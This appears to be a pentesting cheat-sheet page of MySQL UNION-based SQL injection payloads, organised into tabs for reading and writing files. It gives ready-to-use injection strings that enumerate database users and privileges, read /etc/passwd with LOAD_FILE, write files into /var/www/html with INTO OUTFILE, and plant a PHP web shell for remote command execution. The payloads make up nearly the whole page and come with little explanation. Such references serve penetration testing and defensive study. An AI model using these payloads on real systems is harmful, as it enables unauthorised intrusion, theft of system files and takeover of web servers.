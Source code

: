 `UNION`-based payload for <mark style="background-color:yellow;">reading and writing files</mark>:

{% tabs %}
{% tab title="Read" %}
{% code overflow="wrap" %}
```sql
# Enumerate user
a' UNION SELECT 1, user(), 3, 4-- 
a' UNION SELECT 1, user, 3, 4 from mysql.user-- 

# User's privileges
a' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="user1"-- 

# Superpriv
a' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="user1"-- 

# Read file
a' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- 
```
{% endcode %}
{% endtab %}

{% tab title="Write" %}
{% code overflow="wrap" %}
```bash
# Securepriv
a' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"--

# Write file
a' union select 1,'textToBeWritten',3,4 into outfile '/var/www/html/proof.txt'-- 

# RCE
a' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- 
```
{% endcode %}
{% endtab %}

{% tab title="SUPER_PRIV" %}
```bash
a' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="user1"-- 
```
{% endtab %}

{% tab title="READ" %}
```bash
a' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- 
```
{% endtab %}
{% endtabs %}

### Read & Write Files
